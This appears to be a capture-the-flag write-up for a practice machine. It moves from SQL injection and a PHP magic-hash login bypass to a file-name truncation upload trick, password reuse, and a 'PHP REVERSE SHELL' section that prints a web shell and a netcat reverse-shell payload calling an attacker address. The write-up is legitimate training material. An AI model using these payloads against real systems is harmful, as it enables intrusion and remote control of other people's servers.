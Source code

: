 **Initial Recon**

Nmap

![image](https://user-images.githubusercontent.com/88967140/178944865-a3ef8183-1cd8-4fed-ae77-66f69aceacd8.png)

Web Directory Enumeration (Gobuster)
![image](https://user-images.githubusercontent.com/88967140/178944919-596a497a-5a90-444c-9b73-c7029cb28908.png)
![image](https://user-images.githubusercontent.com/88967140/178944927-a6a217c7-5192-4961-bd8d-f18cba0dd4a2.png)

* cyberlaw.txt looked like an interesting text page, which disclosed a user named `chris`.
* ![image](https://user-images.githubusercontent.com/88967140/178945084-83ed301e-ba19-4c43-ada6-9f99fe908af5.png)



**Initial Foothold**

SQL Injection

Since there wasn't anything else other than the login form, I captured the login POST via Burp and used it in `sqlmap`.
![image](https://user-images.githubusercontent.com/88967140/178946925-b0d2ebe8-d070-4991-92ed-030cef796d44.png)
![image](https://user-images.githubusercontent.com/88967140/178946947-2a01e5a4-efca-491f-b15f-a59adc17788d.png)

Sending different usernames in the login form returned different results - 
![image](https://user-images.githubusercontent.com/88967140/178949194-20b06a3f-c7de-47b4-91ab-7ad42d387bf1.png)
![image](https://user-images.githubusercontent.com/88967140/178949227-3d73042b-ec92-49e0-9b8a-2ce02c366be2.png)
![image](https://user-images.githubusercontent.com/88967140/178949211-e65cf870-43d0-4f3a-a36a-a08d21bc77ab.png)

Notice how entering `admin` as the username would show `Wrong identification` in the response, but using `test` would show `Try again..`.

By this it can be deduced that this login form is vulnerable to a boolean-based blind injection (the username= parameter).

So basically, "Wrong identification" = TRUE, "Try again.." = FALSE.

SQLMap
![image](https://user-images.githubusercontent.com/88967140/178950269-cb0b93b3-6c02-4b91-b68f-905466743b9f.png)

Effectively we can use `Wrong identification` to see if we're on the right track. All we're doing here is dumping credentials from `falafel` database.

![image](https://user-images.githubusercontent.com/88967140/178951074-60df6e3e-7bd2-4218-bab1-63295b690501.png)

PHP Type Juggling

Notice how the password for admin is hashed - it begins with 0e. We can try using magic tables to bypass the authentication and get into the account since 0 to exponent of 462 is still 0. Right here we'll be abusing PHP's Loose comparison weakness.

* Magic Hashes

For this we'll be using MD5 “Magic Number" (from https://www.whitehatsec.com/blog/magic-hashes/) 240610708 as the md5 hash for this string would also start with 0e. As a result this magic hash would collide with other hashes as both are treated as 0 and therefore would compare to be **true**

I successfully logged in by using `240610708` as the password for `admin`.

![image](https://user-images.githubusercontent.com/88967140/178952959-d8c94975-1d82-4e92-9496-8e8686a450d5.png)
![image](https://user-images.githubusercontent.com/88967140/178952977-b66d8f8c-c6f0-405b-a8bd-51cdfb9ff58d.png)

At the start I tried to upload a .php file to see if we can get an easy PHPreverse shell.
![image](https://user-images.githubusercontent.com/88967140/178953133-25763a14-7af2-4356-96e9-3f48070d1dde.png)
From this image we can clearly see .php files won't work.



**File Name Truncation**

What I did was create a file with 251 characters using `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 251`, add .png at the end of the file and upload it. 

![image](https://user-images.githubusercontent.com/88967140/178954298-a5a63f19-d81b-425c-8482-bba311b7e6a6.png)

Interestingly enough the output mentioned the file name being too long and shortening it, which turned out to be from 255 characters to 236.
![image](https://user-images.githubusercontent.com/88967140/178954663-adad24d9-8614-4fe3-96a5-111256cfe655.png)



**PHP REVERSE SHELL**

So now my idea was to make it so that the .png part gets cut off by the upload system and we're left off with <file>.php from which we can execute PHP code.
I used `vi` to insert this arbitrary PHP execution code in the file we're going to upload next:
 
 `<?php echo system($_REQUEST['leo']) ?>`
and set up `nc -lvnp 443` on our other terminal.
 
So now we send a request with `leo=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.16.3+443+>/tmp/f` to `http://10.10.10.73/uploads/<folder from CMD output>/<file name>.php` as the payload.
* Important to URL encode it - otherwise the payload won't work.

 And finally I got the shell.
 ![image](https://user-images.githubusercontent.com/88967140/178956561-cdabbc78-1a05-4a42-8880-6d899fa95fa5.png)
 
 
 
 **Privilege Escalation**
 **www-data -> moshe (Password reuse)**

 Web directory enumeration showed this interesting .php file `connection.php`, which, as it turns out, included credentials for `moshe` user.
 ![image](https://user-images.githubusercontent.com/88967140/178957004-fd97e9a1-62c9-46d6-bb75-482d5e5dcf0d.png)
 
 Reusing those credentials, I was able to SSH in as `moshe` and read user.txt.
 ![image](https://user-images.githubusercontent.com/88967140/178957521-383fa639-74d0-4138-9f0c-169c2dfe3b37.png)

 
